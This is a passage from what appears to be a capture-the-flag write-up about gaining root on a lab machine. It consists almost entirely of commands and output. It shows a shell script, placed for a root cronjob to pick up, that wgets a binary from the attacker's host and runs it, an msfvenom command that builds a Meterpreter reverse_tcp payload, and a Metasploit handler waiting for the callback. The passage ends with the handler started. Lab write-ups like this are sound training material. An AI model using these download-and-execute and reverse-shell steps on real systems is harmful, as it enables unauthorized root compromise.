 ```
www-admin-data@onetwoseven:/$ ls -l /bin/nano*
-rwxr-xr-x 1 root root 225320 Jan 11  2017 /bin/nano
-r-xr-xr-x 1 root root    130 Apr 21 21:13 /bin/nano_backdoor
```

Next, I'll create a `snowscan.sh` file in the root of my Python webserver:

```
#!/bin/sh
wget http://10.10.14.23/met -O /tmp/met
chmod 777 /tmp/met
/tmp/met
```

Then generate a Metepreter payload to connect back to me once it gets executed by the cronjob:

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LPORT=5555 LHOST=10.10.14.23
```

And finally once the cronjob runs, downloads `snowscan.sh`, executes it and downloads the meterpreter binary, I get a shell as root:

```
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > jobs

Jobs
====

No active jobs.

msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.14.23:5555
```
